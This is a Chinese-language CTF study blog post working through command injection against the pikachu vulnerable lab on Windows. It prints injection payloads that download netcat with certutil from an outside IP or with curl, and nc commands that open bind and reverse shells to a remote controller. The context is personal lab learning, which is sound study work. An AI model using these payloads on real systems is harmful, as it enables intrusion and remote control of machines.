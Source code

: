 ```yaml
---
title: 20250112CTF学习笔记38
date: 2025-01-12
tags:
 - CTF
 - CTFLearn
categories:
   - 命理学 Numerology
isShowComments: true
publish: true






















---
```


<Boxx/>

从0开始学习CTF，了解CTF基本规则、方法，这是开始打卡学习的第54天

今日内容：基础入门-反弹SHELL&带外查询&正反向连接&防火墙出入站&文件下载

[[toc]]

- 小迪安全视频地址【[🔗传送门]([https://www.bilibili.com/video/BV123yAYMEwb/)】

<!-- more -->

# 第24章：基础入门-反弹SHELL&带外查询&正反向连接&防火墙出入站&文件下载

## 防火墙出入站

书接上回

我们尝试用IP地址拼接命令的方式，中间用管道符连接。我们在输入框中输入以下内容：

```
127.0.0.1 | whoami
```

![image-20250112201835751](/img/ctfLearn/image-20250112201835751.png)

如图所示，如果是用管道符连接的话，会不执行命令1，只执行命令2，利用这种特性，我们可以让他做反弹Shell，将权限给到我们入侵方。

其次，这里系统是用的Windows部署的`phpStudy`和`pikachu漏洞平台`，而Windows是没有自带nc工具的，我们需要做上传文件，去将nc上传到服务器。

这里上传文件的地方，我们可以转换思路，既然可以用命令，那就可以用下载，比如Linux的wget、curl，或者Windows的PowerShell、cmd的certutil.exe等。

### 整理思路：

1. 判断是不是Windows系统，这里我们刚才在执行`whoami`时，返回的用户是`administrator`(我认为这样判断不严谨)

2. Windows没有自带的nc工具，需要想办法上传nc工具。

3. 通过下载的方式将nc送到这台Windows上。

4. 我们拼接命令，用`IP+管道符+下载命令`的形式，视频中演示的是ping命令拼接cmd certuitl的下载方式，下载的是小迪提前准备好的服务器上的nc工具

   ```cmd
   127.0.0.1 | certutil.exe -urlcache -split -f http://47.94.346.117:80/nc.exe c:\\nc.exe
   ```

   >  Windows上没有nc工具，需要自己下载一个nc.exe工具【[下载地址](https://eternallybored.org/misc/netcat/)】，使用命令时如果不加环境变量就要写成nc.exe

   这里我们没有提前准备服务器，懒得找个服务器放这些，就用官方的下载地址凑活一下，也能用。我们换种方式，用`curl -O`的方式应该也是可以的，应该是通用的。
   
   ```cmd
   127.0.0.1 | curl https://eternallybored.org/misc/netcat/netcat-win32-1.11.zip -o c:\Users\xxx\Desktop\netcat.zip
   ```
   
   😶虽然成功下载了，但问题是从官网下载的是个安装包，还没解压，不好搞呀
   
   😫还有个问题，我的虚拟机是以前的工作用的，这有当时公司的杀毒软件，下载的时候报了弹窗，好烦。
   
   没办法，只能重新装一个Win10的虚拟机了，这老东家的杀软卸不掉
   
5. 下载成功后，我们要考虑的是怎么解压到出来（视频中没有这一步骤，直接下载的nc.exe文件），用GPT生成了一段PowerShell代码试一下

   ```
   $zipFile="C:\Users\Administrator\Desktop\netcat.zip";$destination="C:\Users\Administrator\Desktop";if(!(Test-Path -Path $destination)){New-Item -ItemType Directory -Path $destination};Expand-Archive -Path $zipFile -DestinationPath $destination | Out-File -FilePath C:\Users\Administrator\Desktop\result.txt
   ```

   多次尝试无果，都不能将压缩包解压，浪费太多时间了，准备直接进行下一步了。理论上感觉是可行的。

6. 下一步是执行反弹操作，我们有两种方式，正向连接也就它监听我们连它，反向连接是主动把权限给我们

   (1)我们先演示正向连接，用如下命令，将cmd绑定到5566端口：
   
   ```shell
   127.0.0.1 | C:\\Users\Administrator\Desktop\nc.exe -e cmd -lvvp 5566 
   ```
   
   我们控制端，要做的是连接这个受控端的IP地址和端口：
   
   ```shell
   ncat 39.144.94.4 5566
   ```
   
   (2)接下来想想怎么反向连接，用如下命令，讲cmd端口给到远程的控制端的IP地址和端口上去：
   
   ```shell
   127.0.0.1 | C:\\Users\Administrator\Desktop\nc.exe -e cmd 39.144.94.5 5566
   ```
   
   控制端做本地监听5566端口
   
   ```shell
   ncat -lvvp 5566
   ```
   
   








